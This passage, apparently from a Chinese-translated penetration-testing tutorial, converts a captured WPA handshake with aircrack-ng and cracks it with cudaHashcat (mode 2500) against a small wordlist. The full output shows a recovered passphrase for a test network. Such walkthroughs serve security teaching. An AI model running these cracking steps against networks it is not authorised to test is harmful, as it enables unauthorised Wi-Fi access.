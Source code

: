 ```
 **00 00 18 30 16 01 00 00 0F AC 02 01 00 00 0F AC** 
 **04 01 00 00 0F BC 02 4C 00 00 00** 

**Successfully written to output.hccap**
**Quitting aircrack-ng...**

```

结果，我们得到`output_file.hccap`文件。请注意，使用的*J*是大写的。

现在，我们可以执行 Hashcat 命令如下：

```
**cudaHashcat --force -m 2500 ./output_file.hccap ./wordlist.txt**

```

这里：

+   `--force`：此选项忽略警告

+   `-m 2500`：哈希类型是 WPA/WPA2

+   `--session=session05`：这是会话名称（用于可能的继续）

输出如下：

```
**cudaHashcat v1.37 starting...**

**Device #1: GeForce GT 730M, 2048MB, 758Mhz, 2MCU**
**Device #1: WARNING! Kernel exec timeout is not disabled, it might cause you errors of code 702**
 **You can disable it with a regpatch, see here: http://hashcat.net/wiki**
**/doku.php?id=timeout_patch**

**Hashes: 1 hashes; 1 unique digests, 1 unique salts**
**Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates**
**Rules: 1**
**Applicable Optimizers:**
*** Zero-Byte**
*** Single-Hash**
*** Single-Salt**
**Watchdog: Temperature abort trigger set to 90c**
**Watchdog: Temperature retain trigger set to 80c**
**Device #1: Kernel ./kernels/4318/m02500.sm_35.64.cubin**
**Device #1: Kernel ./kernels/4318/amp_a0_v1.sm_35.64.cubin**

**Generating dictionary stats for wordlist.txt: 96 bytes (100.00%), 8 words, 8 keyspace**

**Generated dictionary stats for wordlist.txt: 96 bytes, 8 words, 8 keyspace**
**INFO: approaching final keyspace, workload adjusted**
**Guest:20107a4da6c4:ac7ba167bdc5:Test!!!800**

**Session.Name...: cudaHashcat**
**Status.........: Cracked**
**Input.Mode.....: File (wordlist.txt)**
**Hash.Target....: Guest (68:B6:FC:15:27:18 <-> F8:A9:D0:65:50:B6)**
**Hash.Type......: WPA/WPA2**
**Time.Started...: 0 secs**
**Speed.GPU.#1...:        0 H/s**
**Recovered......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts**
**Progress.......: 8/8 (100.00%)**
**Rejected.......: 0/8 (0.00%)**
**HWMon.GPU.#1...:  0% Util, 39c Temp, N/A Fan**

**Started: Fri Dec 18 06:22:33 2015**
**Stopped: Fri Dec 18 06:22:35 2015**

```